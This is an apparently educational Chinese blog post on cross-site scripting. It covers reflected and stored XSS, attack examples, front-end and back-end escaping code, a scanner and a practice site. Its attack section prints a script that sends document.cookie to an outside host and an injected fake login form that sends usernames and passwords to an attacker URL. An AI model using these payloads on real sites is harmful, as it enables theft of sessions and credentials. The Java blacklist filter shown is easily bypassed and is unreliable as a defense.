 title: WEB安全初探之XSS
tags:
  - XSS
categories:
  - 信息安全
date: 2016-03-09 15:48:00
---

XSS 全称(Cross Site Scripting) 跨站脚本攻击，是Web程序中最常见的漏洞。指攻击者在网页中嵌入客户端脚本(例如JavaScript), 当用户浏览此网页时，脚本就会在用户的浏览器上执行，从而达到攻击者的目的。比如获取用户的Cookie，导航到恶意网站,携带木马等。

## 0x01 XSS攻击的分类
根据XSS脚本注入方式的不同，我们可以对XSS攻击进行简单的分类。其中，最常见的就数反射型XSS和存储型XSS了。

### 1. 反射型XSS
反射型XSS，又称非持久型XSS。之所以称为反射型XSS，则是因为这种攻击方式的注入代码是从目标服务器通过错误信息、搜索结果等等方式“反射”回来的。而称为非持久型XSS，则是因为这种攻击方式具有一次性。
攻击者通过电子邮件等方式将包含注入脚本的恶意链接发送给受害者，当受害者点击该链接时，注入脚本被传输到目标服务器上，然后服务器将注入脚本“反射”到受害者的浏览器上，从而在该浏览器上执行了这段脚本。

### 2. 存储型XSS
存储型XSS，又称持久型XSS，他和反射型XSS最大的不同就是，攻击脚本将被永久地存放在目标服务器的数据库和文件中。这种攻击多见于论坛，攻击者在发帖的过程中，将恶意脚本连同正常信息一起注入到帖子的内容之中。随着帖子被论坛服务器存储下来，恶意脚本也永久地被存放在论坛服务器的后端存储器中。当其它用户浏览这个被注入了恶意脚本的帖子的时候，恶意脚本则会在他们的浏览器中得到执行，从而受到了攻击。


## 0x02 XSS攻击的手段及其危害

### 1. 窃取Cookie
具体实现方法：
先构造语句`<script>window.open('http://dlgyi.rrvv.net/cookie.asp?msg='+document.cookie)</script>`
这句话意思是打开一个新的窗口，访问http://dlgyi.rrvv.net/cookie.asp这个网址，并且通过msg传递一个变量，这里的变量就是我们要收集的cookie了。

### 2. 引导钓鱼
``` html
<script>
function hack()
{
                   location.replace(“http://www.attackpage.com/record.asp?username=“
+document.forms[0].user.value + “password=” + document.forms[0].pass.value);
}
</script>
<form>
<br><br><HR><H3>这个功能需要登录:</H3 >
<br><br>请输入用户名：<br>
<input type=”text” id=”user”name=”user”>
<br>请输入密码：<br>
<input type=”password” name =“pass”>
<br><input type=”submit”name=”login” value=”登录”onclick=”hack()”>
</form><br><br><HR>
```
注入上面的代码后，则会在原来的页面上，插入一段表单，要求用户输入自己的用户名和密码，而当用户点击“登录”按钮后，则会执行hack()函数，将用户的输入发送到攻击者指定的网站上去。这样，攻击者就成功窃取了该用户的账号信息。


<!-- more -->

## 0x03 XSS的预防

### 1. 前端过滤XSS
``` javascript
function xssCheck(str,reg){
    return str ? str.replace(reg || /[&<">'](?:(amp|lt|quot|gt|#39|nbsp|#\d+);)?/g, function (a, b) {
        if(b){
            return a;
        }else{
            return {
                '<':'&lt;',
                '&':'&amp;',
                '"':'&quot;',
                '>':'&gt;',
                "'":'&#39;',
            }[a]
        }
    }) : '';
}
```

### 2. 后端预防

#### spring提供的方法
``` xml
<context-param>
   <param-name>defaultHtmlEscape</param-name>
   <param-value>true</param-value>
</context-param>

Forms加上：<spring:htmlEscape defaultHtmlEscape="true" />
```

#### 手动escape
首先添加一个jar包：commons-lang-2.5.jar ，然后在后台调用这些函数：StringEscapeUtils.escapeHtml(string); StringEscapeUtils.escapeJavaScript(string); StringEscapeUtils.escapeSql(string);

#### 后台加Filter
``` java
private String cleanXSS(String value) {
    //You'll need to remove the spaces from the html entities below
    value = value.replaceAll("<", "& lt;").replaceAll(">", "& gt;");
    value = value.replaceAll("\\(", "& #40;").replaceAll("\\)", "& #41;");
    value = value.replaceAll("'", "& #39;");
    value = value.replaceAll("eval\\((.*)\\)", "");
    value = value.replaceAll("[\\\"\\\'][\\s]*javascript:(.*)[\\\"\\\']", "\"\"");
    value = value.replaceAll("script", "");
    return value;
}
```


## 0x04 一款XSS漏洞检测爬虫 - XSScrapy
``` bash
./xsscrapy.py -u http://example.com
./xsscrapy.py -u http://example.com/login_page -l loginname
```


## 0x05 XSS练习
http://vulnweb.janusec.com/index-xss.php


## 0x06 推荐站点
- [WooYun知识库](http://drops.wooyun.org/)
- [FreeBuf黑客与极客](http://www.freebuf.com/)
- [SecWiki](http://www.sec-wiki.com/index.php)


## 0x07 参考文档
- [XSS的原理分析与解剖](http://www.freebuf.com/articles/web/40520.html)
- [XSS的原理分析与解剖（第二篇）](http://www.freebuf.com/articles/web/42727.html)
- [前端防御XSS](http://drops.wooyun.org/web/13009)
- [Spring MVC防御CSRF、XSS和SQL注入攻击](http://www.cnblogs.com/Mainz/archive/2012/11/01/2749874.html)
- [快速、直接的XSS漏洞检测爬虫 – XSScrapy](http://itindex.net/detail/51089-xss-xsscrapy)
- [xsscrapy](https://github.com/DanMcInerney/xsscrapy)